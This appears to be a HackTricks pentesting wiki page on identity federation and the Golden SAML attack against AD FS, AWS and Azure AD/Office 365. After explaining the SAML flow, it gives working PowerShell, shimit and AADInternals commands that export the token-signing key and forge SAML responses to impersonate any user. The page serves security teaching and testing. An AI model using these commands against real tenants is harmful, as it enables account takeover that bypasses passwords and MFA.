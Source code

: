 # Federation

<details>

<summary><strong>Support HackTricks and get benefits!</strong></summary>

Do you work in a **cybersecurity company**? Do you want to see your **company advertised in HackTricks**? or do you want to have access the **latest version of the PEASS or download HackTricks in PDF**? Check the [**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)!

Discover [**The PEASS Family**](https://opensea.io/collection/the-peass-family), our collection of exclusive [**NFTs**](https://opensea.io/collection/the-peass-family)

Get the [**official PEASS & HackTricks swag**](https://peass.creator-spring.com)

**Join the** [**💬**](https://emojipedia.org/speech-balloon/) [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** me on **Twitter** [**🐦**](https://github.com/carlospolop/hacktricks/tree/7af18b62b3bdc423e11444677a6a73d4043511e9/\[https:/emojipedia.org/bird/README.md)[**@carlospolopm**](https://twitter.com/carlospolopm)**.**

**Share your hacking tricks submitting PRs to the** [**hacktricks github repo**](https://github.com/carlospolop/hacktricks)**.**

</details>

## Basic Information

**Federation** is a collection of **domains** that have established **trust**. The level of trust may vary, but typically includes **authentication** and almost always includes **authorization**. A typical federation might include a **number of organizations** that have established **trust** for **shared access** to a set of resources.

You can **federate your on-premises** environment **with Azure AD** and use this federation for authentication and authorization. This sign-in method ensures that all user **authentication occurs on-premises**. This method allows administrators to implement more rigorous levels of access control. Federation with **AD FS** and PingFederate is available.

<figure><img src="../../../.gitbook/assets/image.png" alt=""><figcaption></figcaption></figure>

Bsiacally, in Federation, all **authentication** occurs in the **on-prem** environment and the user experiences SSO across all the trusted environments. Therefore, users can **access** **cloud** applications by using their **on-prem credentials**.

**Security Assertion Markup Language (SAML)** is used for **exchanging** all the authentication and authorization **information** between the providers.

In any federation setup there are three parties:&#x20;

* User or Client
* Identity Provider (IdP):&#x20;
* Service Provider (SP)

<figure><img src="../../../.gitbook/assets/image (1).png" alt=""><figcaption></figcaption></figure>

1. First the user **tries to access an application** (also known as the SP i.e. Service Provider), that might be an AWS console, vSphere web client, etc. Depending on the implementation, the client may go directly to the IdP first, and skip the first step in this diagram.
2. The application then **detects the IdP** (i.e. Identity Provider, could be AD FS, Okta, etc.) to authenticate the user, **generates a SAML AuthnRequest** and redirects the client to the IdP.
3. The **IdP authenticates the user**, **creates a SAMLResponse** and posts it to the SP via the user.
4. SP **checks the SAMLResponse** and **logs the user in**. The SP must have a trust relationship with the IdP. The user can now use the service.

**If you want to learn more about SAML authentication and common attacks go to:**

{% embed url="https://book.hacktricks.xyz/pentesting-web/saml-attacks" %}

## Pivoting



* AD FS is a claims-based identity model.
* "..claimsaresimplystatements(forexample,name,identity,group), made about users, that are used primarily for authorizing access to claims-based applications located anywhere on the Internet."
* Claims for a user are written inside the SAML tokens and are then signed to provide confidentiality by the IdP.
* A user is identified by ImmutableID. It is globally unique and stored in Azure AD.
* TheImmuatbleIDisstoredon-premasms-DS-ConsistencyGuidforthe user and/or can be derived from the GUID of the user.
* More info in [https://learn.microsoft.com/en-us/windows-server/identity/ad-fs/technical-reference/the-role-of-claims](https://learn.microsoft.com/en-us/windows-server/identity/ad-fs/technical-reference/the-role-of-claims)

**Golden SAML attack:**

* In ADFS, SAML Response is signed by a token-signing certificate.
* If the certificate is compromised, it is possible to authenticate to the Azure AD as ANY user synced to Azure AD!
* Just like our PTA abuse, password change for a user or MFA won't have any effect because we are forging the authentication response.
* The certificate can be extracted from the AD FS server with DA privileges and then can be used from any internet connected machine.
* More info in [https://www.cyberark.com/resources/threat-research-blog/golden-saml-newly-discovered-attack-technique-forges-authentication-to-cloud-apps](https://www.cyberark.com/resources/threat-research-blog/golden-saml-newly-discovered-attack-technique-forges-authentication-to-cloud-apps)

### Golden SAML

From the previous schema the most interesting part is the third one, were the **IdP** generates a **SAMLResponse** authorising the user to sig in. Depending on the specific IdP implementation, the **response** may be either **signed** or **encrypted** by the **private key of the IdP**. This way, the **SP can verify** that the SAMLResponse was indeed created by the trusted IdP.

Similar to a [golden ticket attack](https://book.hacktricks.xyz/windows-hardening/active-directory-methodology/golden-ticket), with the **key** that **signs** the object which holds the **user’s identity** and **permissions** (_KRBTGT_ for golden ticket and token-signing private key for golden SAML), we can then **forge such an “authentication object”** (TGT or SAMLResponse) and **impersonate any user** to gain unauthorized access to the SP.&#x20;

In addition, golden SAMLs have the following advantages:

* They can be **generated** from practically **anywhere**. You don’t need to be a part of a domain, federation of any other environment you’re dealing with
* They are effective even when **2FA** is enabled
* The token-signing **private key** is **not renewed** automatically
* **Changing** a user’s **password** **won’t affect** the generated SAML

#### AWS + AD FS + Golden SAML = ♥ (case study)

[Active Directory Federation Services](https://docs.microsoft.com/en-us/previous-versions/windows/server-2008/bb897402\(v=msdn.10\)) (**AD FS**) is a Microsoft standards-based domain service that allows the **secure sharing of identity information** between trusted business partners (**federation**). It is basically a service in a domain that provides domain user identities to other service providers within a federation.

Assuming AWS **trusts** the domain which you’ve compromised (in a federation), you can then take advantage of this attack and practically **gain any permissions in the cloud environment**. To perform this attack, you’ll need the **private key that signs the SAML** objects (similarly to the need for the KRBTGT in a golden ticket). For this private key, you don’t need a domain admin access, you’ll only need the AD FS user account.

Here’s a list of the requirements for performing a golden SAML attack:

* **Token-signing private key**
* **IdP public certificate**
* **IdP name**
* **Role name (role to assume)**
* Domain\username
* Role session name in AWS
* Amazon account ID

_The mandatory requirements are highlighted. For the other non-mandatory fields, you can enter whatever you like._

For the **private key** you’ll need access to the **AD FS account**, and from its **personal store** you’ll need to **export the private key** (export can be done with tools like [mimikatz](https://github.com/gentilkiwi/mimikatz)). For the other requirements you can import the powershell snapin Microsoft.Adfs.Powershell and use it as follows (you have to be running as the ADFS user):

```powershell
# From an "AD FS" session
# After having exported the key with mimikatz

# ADFS Public Certificate
[System.Convert]::ToBase64String($cer.rawdata)

# IdP Name
(Get-ADFSProperties).Identifier.AbsoluteUri

# Role Name
(Get-ADFSRelyingPartyTrust).IssuanceTransformRule
```

With all the information, it's possible to forget a valid SAMLResponse as the user you want to impersonate using [**shimit**](https://github.com/cyberark/shimit)**:**

{% code overflow="wrap" %}
```bash
# Apply session for AWS cli
python .\shimit.py -idp http://adfs.lab.local/adfs/services/trust -pk key_file -c cert_file -u domain\admin -n admin@domain.com -r ADFS-admin -r ADFS-monitor -id 123456789012
# idp - Identity Provider URL e.g. http://server.domain.com/adfs/services/trust
# pk - Private key file full path (pem format)
# c - Certificate file full path (pem format)
# u - User and domain name e.g. domain\username (use \ or quotes in *nix)
# n - Session name in AWS
# r - Desired roles in AWS. Supports Multiple roles, the first one specified will be assumed.
# id - AWS account id e.g. 123456789012

# Save SAMLResponse to file
python .\shimit.py -idp http://adfs.lab.local/adfs/services/trust -pk key_file -c cert_file -u domain\admin -n admin@domain.com -r ADFS-admin -r ADFS-monitor -id 123456789012 -o saml_response.xml
```
{% endcode %}

<figure><img src="../../../.gitbook/assets/image (7).png" alt=""><figcaption></figcaption></figure>

### On-prem -> cloud

```powershell
# With a domain user you can get the ImmutableID of the target user
[System.Convert]::ToBase64String((Get-ADUser -Identity <username> | select -ExpandProperty ObjectGUID).tobytearray())

# On AD FS server execute as administrator
Get-AdfsProperties | select identifier

# When setting up the AD FS using Azure AD Connect, there is a difference between IssueURI on ADFS server and Azure AD.
# You need to use the one from AzureAD.
# Therefore, check the IssuerURI from Azure AD too (Use MSOL module and need GA privs)
Get-MsolDomainFederationSettings -DomainName deffin.com | select IssuerUri

# Extract the ADFS token signing certificate from the ADFS server using AADInternals
Export-AADIntADFSSigningCertificate

# Impersonate a user to to access cloud apps
Open-AADIntOffice365Portal -ImmutableID v1pOC7Pz8kaT6JWtThJKRQ== -Issuer http://deffin.com/adfs/services/trust -PfxFileName C:\users\adfsadmin\Documents\ADFSSigningCertificate.pfx -Verbose
```

It's also possible to create ImmutableID of cloud only users and impersonate them

```powershell
# Create a realistic ImmutableID and set it for a cloud only user 
[System.Convert]::ToBase64String((New-Guid).tobytearray())
Set-AADIntAzureADObject -CloudAnchor "User_19e466c5-d938-1293-5967-c39488bca87e" -SourceAnchor "aodilmsic30fugCUgHxsnK=="

# Extract the ADFS token signing certificate from the ADFS server using AADInternals
Export-AADIntADFSSigningCertificate

# Impersonate the user
Open-AADIntOffice365Portal -ImmutableID "aodilmsic30fugCUgHxsnK==" -Issuer http://deffin.com/adfs/services/trust -PfxFileName C:\users\adfsadmin\Desktop\ADFSSigningCertificate.pfx -Verbose
```

## References

* [https://learn.microsoft.com/en-us/azure/active-directory/hybrid/whatis-fed](https://learn.microsoft.com/en-us/azure/active-directory/hybrid/whatis-fed)
* [https://www.cyberark.com/resources/threat-research-blog/golden-saml-newly-discovered-attack-technique-forges-authentication-to-cloud-apps](https://www.cyberark.com/resources/threat-research-blog/golden-saml-newly-discovered-attack-technique-forges-authentication-to-cloud-apps)

<details>

<summary><strong>Support HackTricks and get benefits!</strong></summary>

Do you work in a **cybersecurity company**? Do you want to see your **company advertised in HackTricks**? or do you want to have access the **latest version of the PEASS or download HackTricks in PDF**? Check the [**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)!

Discover [**The PEASS Family**](https://opensea.io/collection/the-peass-family), our collection of exclusive [**NFTs**](https://opensea.io/collection/the-peass-family)

Get the [**official PEASS & HackTricks swag**](https://peass.creator-spring.com)

**Join the** [**💬**](https://emojipedia.org/speech-balloon/) [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** me on **Twitter** [**🐦**](https://github.com/carlospolop/hacktricks/tree/7af18b62b3bdc423e11444677a6a73d4043511e9/\[https:/emojipedia.org/bird/README.md)[**@carlospolopm**](https://twitter.com/carlospolopm)**.**

**Share your hacking tricks submitting PRs to the** [**hacktricks github repo**](https://github.com/carlospolop/hacktricks)**.**

</details>
